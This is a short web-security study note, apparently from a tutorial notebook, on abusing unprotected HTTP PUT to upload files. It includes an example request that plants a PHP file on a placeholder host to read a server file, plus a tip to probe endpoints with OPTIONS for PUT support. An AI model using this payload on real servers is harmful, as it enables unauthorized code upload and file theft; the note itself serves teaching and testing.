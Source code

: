 ## Uploading files using PUT
Some web servers support `PUT requests`. If unprotected, this allows uploading malicious files even if the web interface does not provide an upload function:
```Request
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```

> [!info] Tip
Send `OPTIONS requests` to different endpoints to check for `PUT` support.